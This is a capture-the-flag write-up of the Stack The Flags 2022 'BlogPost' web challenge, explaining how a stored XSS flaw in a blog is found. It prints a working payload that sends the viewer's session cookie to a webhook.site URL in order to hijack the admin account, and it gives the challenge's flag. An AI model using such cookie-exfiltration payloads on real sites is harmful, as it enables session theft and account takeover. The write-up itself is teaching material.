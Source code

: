 # Stack The Flags 2022: BlogPost

![Contest Date: 02.12.2022](https://img.shields.io/badge/Contest%20Date-02.12.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-brightgreen)

## Description

> Jaga created an internal social media platform for the company, can you leak anyone's information?



## Attached Files

- [Source code](https://github.com/seanLimWeiRen/STF22_writeups/tree/main/Web/BlogPost/attached_files)

## Summary

We use XSS to steal the admin's session cookies

## Flag

```
STF22{s1mpl3_p0st_xSs_:)}
```

## Detailed Solution

Upon visiting the website and clicking one "Login", we are greeted with a login page which gives us a link to register an account.

![1.png](images/1.png)

After registering an account and logging in with it, we can see that an admin has created a post, providing us with the information that there is an admin account and we might need to gain access to it.

![2.png](images/2.png)

### Finding the vulnerability

I tried to login to the admin account with SQL injection, but it did not work

![3.png](images/3.png)

Read more about SQL injection ![here](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)

Luckily, one of the first things that I thought to test was XSS, so I used `<script>alert('xss')</script>` to test if it was vulnerable.

![4.png](images/4.png)

Indeed, the alert box popped up to show that the blog was vulnerable to XSS

![5.png](images/5.png)

#### How does XSS work? (for beginners)

XSS works by manipulating a website to return possibly malicious javascript code to its users, and it is run on the web browsers of the victim(s).
Using the example from earlier, the `<script>` and `</script>` tags are used to embed a client-side script, while `alert('xss')` simply gives us a popup with the text "xss"

### Exploiting the vulnerability

Remember when I mentioned that we could try to gain access to the admin account? That's exactly what we need to do with XSS.
Because your session data is stored in your cookies, we need to exfiltrate the session cookie.

For this, we can either use ![webhook.site](https://webhook.site) or ![PostBin](https://www.toptal.com/developers/postbin/), both work perfectly fine but I prefer to use webhook.site

With the information I had, I created this payload:
```
<script>javascript:document.location='https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4?cookie='+document.cookie;</script>
```
Don't worry if you don't know what this means, I'll break it down.

#### How does this work?

When a user views the blog, they will be forcefully redirected to `https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4`, with their session cookie being sent along as well. The website then logs it and we can view it.

#### The fun part

![6.png](images/6.png)


Now, when we create the post and go to the webhook.site website, we can see that there are 2 GET requests 

![7.png](images/7.png)

One is from our browser, and the other is from the bot/admin
When we look at the query strings from the bot, we can get our flag.

![8.png](images/8.png)

```
STF22{s1mpl3_p0st_xSs_:)}
```


